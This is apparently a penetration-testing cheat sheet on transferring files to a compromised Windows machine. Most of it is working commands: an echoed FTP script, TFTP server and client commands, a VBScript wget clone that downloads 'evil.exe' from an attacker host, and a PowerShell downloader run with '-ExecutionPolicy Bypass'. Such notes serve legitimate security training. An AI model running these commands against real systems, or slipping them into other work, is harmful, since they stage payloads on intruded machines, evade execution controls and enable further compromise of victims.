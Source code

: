 # Windows basics

## Transferring files

Why is this so much harder in Windows? I don't know.

## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file echo open 192.168.1.101 21&gt; ftp.txt echo USER username&gt;&gt; ftp.txt echo password&gt;&gt; ftp.txt echo bin&gt;&gt; ftp.txt echo GET wget.exe&gt;&gt; ftp.txt echo bye&gt;&gt; ftp.txt

Then run this command to connect to the ftp

```text
ftp -v -n -s:ftp.txt
```

## TFTP

TFTP is installed by default on Windows XP and Windows 2003. Kali also has a TFTP server:

```text
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

With this command you can serve files from `/srv/tftp`.

From a Windows machine, use this to transfer files:

```text
tftp -i [host] GET wget.exe
```

### VBScript

Here is a good script to make a wget-clone in VB \(may need to be piped through unix2dos before copying it\):

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

To execute:

```text
cscript wget.vbs http://[hoste]/evil.exe evil.exe
```

### Powershell

Powershell can't be started in a non-interactive shell. But this script can start it:

```text
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://[host]/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

To execute:

```text
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

